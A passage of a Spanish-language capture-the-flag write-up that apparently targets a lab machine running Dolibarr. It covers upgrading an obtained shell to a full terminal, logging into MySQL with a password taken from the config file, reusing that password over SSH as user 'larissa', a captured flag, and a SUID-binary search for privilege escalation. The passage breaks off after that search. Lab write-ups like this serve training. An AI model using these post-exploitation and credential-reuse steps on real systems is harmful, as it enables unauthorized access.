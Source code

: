 ```
$dolibarr_main_db_collation='utf8_unicode_ci';
// Authentication settings
$dolibarr_main_authentication='dolibarr';
```

Primero sanitizamos la shell...

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Una credenciales para conectarnos a `mysql`...

```shell
mysql -h localhost -u dolibarrowner -pserverfun2$2023!!
```

Metiendonos dentro no veremos nada, pero si probamos esta contarseña con el usuario `larissa` sera su contraseña, por lo que...

```
User = larissa
Password = serverfun2$2023!!
```

Nos conectamos por `ssh`...

```shell
ssh larissa@<IP>
```

Una vez dentro leeremos la flag en su `/home`...

> user.txt (flag1)

```
092416f8881878db54f1c3fb0eccb894
```

Si hacemos lo siguiente...

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:
